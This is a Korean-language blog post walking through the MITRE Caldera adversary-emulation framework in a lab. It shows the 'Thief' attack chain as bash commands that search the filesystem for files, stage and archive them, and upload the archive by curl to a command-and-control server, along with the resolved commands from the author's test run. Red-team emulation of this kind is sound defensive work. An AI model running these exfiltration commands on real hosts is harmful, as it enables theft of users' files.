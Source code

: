 ```yaml
---
title: Usage of Caldera
author: Jeongwon
date: 2025-02-21 16:04:00 +0900
categories: [Career, RedTeam]
tags: [writing]
render_with_liquid: false
---
```

## Caldera

###### `REF` : [DOCS](https://caldera.readthedocs.io/en/latest/) | [YOUTUBE](https://www.youtube.com/playlist?list=PLF2bj1pw7-ZvLTjIwSaTXNLN2D2yx-wXH) | [BLOG](https://medium.com/@mitrecaldera/welcome-to-the-official-mitre-caldera-blog-page-f34c2cdfef09) | [WEB](https://caldera.mitre.org/)

---
## Overview

### Campaigns/Agents
Victim host를 생성하고 관리합니다.

### Campaigns/Abilities
Caldera Server가 Victim host에게 수행할 수 있는 공격 전술입니다.

### Campaigns/Adversaries
`Abilities`의 공격 전술을 Chaining할 수 있습니다.

### Campaigns/Operation
`Adversaries`의 Attack Chain을 Victim host에게 실행합니다.

---
## Attack Test

![image](assets/img/usage-of-caldera/agent_create.png)
- `Campaigns/Agents`에서 Victim host를 생성합니다.
    - 저는 Sandcat을 사용하였고, Linux 환경의 Victim host를 택하였습니다.
    - `app.contact.http`의 IP 자리에 Caldera server의 IP를 넣어줍니다.
    - 입력을 마친 후 하단 명령어를 Victim host의 Terminal에서 실행해줍니다.

![image](assets/img/usage-of-caldera/operation_exec.png)
- `Campaigns/Operation`에서 실행할 Attack Chain을 `Campaigns/Adversaries`에서 선택합니다.
    - 예시로 생성되어있던 `Thief`를 실행해 보았습니다.

![image](assets/img/usage-of-caldera/adversaries_thief.png)
- `Campaigns/Adversaries`의 `Thief` Attack Chain입니다.

```bash
# T1074.001 : Data Staged: Local Data Staging
mkdir -p staged && echo $PWD/staged

# T1005 : Data from Local System
# plugins.stockpile.app.parsers.basic
find / -name '*.#{file.sensitive.extension}' -type f -not -path '*/\.*' -size -500k 2>/dev/null | head -5

# T1074.001 : Data Staged: Local Data Staging
# plugins.stockpile.app.requirements.paw_provenance
cp #{host.file.path[filters(technique=T1005,max=3)]} #{host.dir.staged[filters(max=1)]}

# T1560.001 : Archive Collected Data: Archive via Utility
# plugins.stockpile.app.requirements.paw_provenance
tar -P -zcf #{host.dir.staged}.tar.gz #{host.dir.staged} && echo #{host.dir.staged}.tar.gz

# T1041 : Exfiltration Over C2 Channel
# plugins.stockpile.app.requirements.paw_provenance
curl -F "data=@#{host.dir.compress}" --header "X-Request-ID: `hostname`-#{paw}" #{server}/file/upload
```

- 위와 같은 Chain이 Victim host를 대상으로 실행됩니다.
  - 각각의 Abilities에서 적용될 변수들은 `Configuration/Fact Sources`에서 확인할 수 있습니다.

```bash
mkdir -p staged && echo $PWD/staged
find / -name '*.png' -type f -not -path '*/\.*' -size -500k 2>/dev/null | head -5
find / -name '*.yml' -type f -not -path '*/\.*' -size -500k 2>/dev/null | head -5
find / -name '*.wav' -type f -not -path '*/\.*' -size -500k 2>/dev/null | head -5
cp /usr/lib/python3/dist-packages/mpl_toolkits/tests/baseline_images/test_axisartist_axislines/Subplot.png /home/biz-jeongwon/staged
cp /Docker/host/tile-icon.png /home/biz-jeongwon/staged
cp /Docker/host/tile-error.png /home/biz-jeongwon/staged
tar -P -zcf /home/biz-jeongwon/staged.tar.gz /home/biz-jeongwon/staged && echo /home/biz-jeongwon/staged.tar.gz
curl -F "data=@/home/biz-jeongwon/staged.tar.gz" --header "X-Request-ID: `hostname`-antixm" http://[Caldera Server IP]:8888/file/upload
```

- 실제 실행되는 Attack Chain의 Command line입니다.
  - Victim host에 staging directory를 생성하고, sensitive file을 해당 directory에 옮긴 후, 압축하여 C2 server(Caldera server)로 curl을 통해 보냅니다.
 






 




